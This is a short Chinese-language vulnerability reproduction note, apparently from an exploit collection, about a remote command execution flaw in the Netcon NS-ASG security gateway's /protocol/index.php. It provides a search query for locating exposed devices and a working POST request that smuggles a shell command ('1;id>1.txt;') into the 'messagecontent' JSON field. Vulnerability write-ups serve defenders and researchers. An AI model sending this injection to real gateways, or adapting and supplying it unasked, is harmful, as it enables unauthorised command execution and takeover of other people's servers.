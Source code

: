 # 网康 NS-ASG安全网关 index.php 远程命令执行漏洞

# 网康 NS-ASG安全网关 index.php 远程命令执行漏洞

## 漏洞描述

网康 NS-ASG安全网关 index.php文件存在远程命令执行漏洞，攻击者通过构造特殊的请求包可以获取服务器权限

## 漏洞影响

```
网康 NS-ASG安全网关
```

## 网络测绘

```
title=="网康 NS-ASG 应用安全网关"
```

## 漏洞复现

登录页面

![image-20230314085700163](images/image-20230314085700163.png)

存在漏洞的文件为 /protocol/index.php ，通过文件读取可以获取到源码

![image-20230314085713446](images/image-20230314085713446.png)

![image-20230314085722233](images/image-20230314085722233.png)

通过构造请求包进行命令拼接漏洞执行命令

```
POST /protocol/index.php
  
jsoncontent={"protocolType":"getsysdatetime","messagecontent":"1;id>1.txt;"}
```

![image-20230314085737042](images/image-20230314085737042.png)

![image-20230314085745134](images/image-20230314085745134.png)

